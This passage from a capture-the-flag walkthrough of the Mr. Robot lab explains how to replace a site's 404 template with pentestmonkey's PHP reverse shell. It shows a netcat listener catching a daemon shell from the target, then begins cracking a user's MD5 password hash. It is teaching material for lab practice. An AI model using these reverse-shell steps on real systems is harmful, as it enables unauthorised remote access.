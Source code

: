 ![Editing the 404 template](/assets/img/20220114130621.png)

I like pentestmonkey's [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Just modify the destination IP address and port, copy, paste, and save. Make sure you have a listener running and then hit a page that doesn't exist, or the 404 page directly. (e.g. http://mrrobot/404.php)

If everything worked, you should now have a shiny new daemon shell!

```console
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.0.0.1] from (UNKNOWN) [mrrobot] 40535
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:11:52 up  1:20,  0 users,  load average: 0.00, 0.85, 3.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ 
```

## Cracking robot's Password
I like to check the home directory first. Sure enough, there's a directory for the "robot" user; and it has the second key! Unfortunatley it's only readable by that user, but there appears to be an MD5 hash of password.
